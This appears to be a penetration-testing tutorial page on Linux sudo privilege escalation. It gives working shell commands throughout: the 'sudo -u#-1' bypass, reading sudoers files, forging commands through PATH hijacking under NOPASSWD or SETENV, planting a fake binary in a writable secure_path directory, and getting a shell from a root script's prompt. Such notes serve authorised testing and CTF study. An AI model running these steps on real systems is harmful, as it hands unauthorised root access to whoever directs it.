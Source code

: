```yaml
---
title: Sudo Privilege Escalation
description: Sudo commands might be vulnerable to privilege escalation (PrivEsc).
tags:
    - Privilege Escalation
refs:
date: 2023-02-23
draft: false
---
```


## GTFOBins

[GTFOBins](https://gtfobins.github.io/) provides a wide variety of payloads to privilege escalation.  
So it's recommended to look for in there.

<br />

## Investigation

### Version

```sh
sudo --version
```

If the sudo **version <=1.28**, try the following command.

```sh
sudo -u#-1 /bin/bash
```

### As Another Users

```sh
sudo su root
sudo -u john whoami
# -s: run shell as target user
sudo -s
```

### Sudo commands (Sudoers)

```sh
sudo -l
sudo -ll

# Specify hostname
sudo -h <host-name> -l
# Execute via the hostname
sudo -h <host-name> /bin/bash
```

Also we might see from following files.

```sh
cat /etc/sudoers
cat /etc/sudoers.d/usersgroup
```

If we find the following result for sudoers,

```bash
(ALL, !root) NOPASSWD: /bin/bash
```

We might be able to get a root shell as follow.

```bash
sudo -u#-1 /bin/bash
```

<br />

## Command Forgery (NOPASSWD)

If you are allowed to execute some command, you can forge the contents of the command.  
First off, check the properties.

```sh
sudo -l
(root) NOPASSWD: somecmd
```

If you can confirm that it can be executed as root without password, create the same named command in the arbitrary folder in which you can write files.

```sh
# option 1
echo /bin/sh > /tmp/somecmd
```

Next, change the permission for allowing to execute it.  
And add the path to the environment.

```sh
chmod +x /tmp/somecmd
export PATH=/tmp:$PATH
```

Now execute the command as root.  


```sh
sudo somecmd
whoami
# root
```

<br />

## Command Forgery (SETENV, NOPASSWD)

If you found there is a **SETENV:** in sudoers, you can set the **PATH** when running the command.

```sh
sudo -l
(root) SETENV: NOPASSWD: somecmd
```

As the previous section, prepare the payload.

```sh
echo '/bin/bash -p' > /tmp/somecmd
chmod +x /tmp/somecmd
```

Now run the command as root with setting the PATH.

```sh
sudo PATH=/tmp:$PATH somecmd
whoami
```

<br />

## Command Path Hijacking

```bash
sudo -l

env_reset
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

(root) python /home/user/example.py
```

If we can execute some command as root but **`env_reset`** and **`secure_path`** are set, we cannot override the **PATH** environment variable.  
Instead we need to check if we have permission to write each path.

```bash
ls -al /usr/local/
ls -al /usr/
ls -al /
```

Assume we can write an arbitrary binary file under **`/usr/sbin`**, we can create a payload in there.  
For example, we create a **`python`** binary under **`/usr/sbin`**.

```bash
echo /bin/bash > /usr/sbin/python
chmod +x /usr/sbin/python
```

Then execute the sudo command.

```bash
sudo python /home/user/example.py
```

Now we should get a root shell.

<br />

## Shell in Prompt

```bash
#!/bin/bash

read -p "What's you name: "
```

If we found there is another user’s script which can be executed as root, you can input **\`/bin/bash -i\`** to get a shell as another user.
